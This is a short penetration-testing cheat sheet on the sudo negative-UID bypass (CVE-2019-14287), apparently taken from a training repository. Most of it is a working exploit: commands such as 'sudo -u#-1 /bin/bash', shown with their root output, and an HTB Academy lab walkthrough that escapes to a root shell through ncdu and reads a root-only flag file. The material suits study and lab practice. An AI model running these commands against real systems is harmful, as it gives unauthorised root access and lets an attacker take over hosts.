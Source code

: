### Vulnerability Details
- **Impact**: User ID bypass → privilege escalation
- **Affected**: All versions below 1.8.28
- **Method**: Negative user ID (-1) processed as UID 0 (root)

### Prerequisites
```bash
# Need sudo access to any command
sudo -l
# User may run: (ALL) /usr/bin/id
```

### Exploitation
```bash
# Check user ID
cat /etc/passwd | grep $(whoami)
# user:x:1005:1005:user,,,:/home/user:/bin/bash

# Execute with negative ID
sudo -u#-1 id
# uid=0(root) gid=1005(user) groups=1005(user)

# Get full root shell
sudo -u#-1 /bin/bash
```

### HTB Academy Lab Example (CVE-2019-14287)
```bash
# 1. Connect to target
ssh htb-student@target

# 2. Check sudo permissions
bash -i
sudo -l
# User htb-student may run the following commands:
#     (ALL, !root) /bin/ncdu

# 3. Check ncdu manual for exploitation
man -P cat ncdu | grep -A 5 "b   Spawn shell"
# Option 'b' spawns shell in current directory

# 4. Execute with negative user ID
sudo -u#-1 /bin/ncdu
# Press 'b' in ncdu interface

# 5. Get root shell and read flag
id  # uid=0(root)
cat /root/flag.txt
```

## 🔍 Version Enumeration
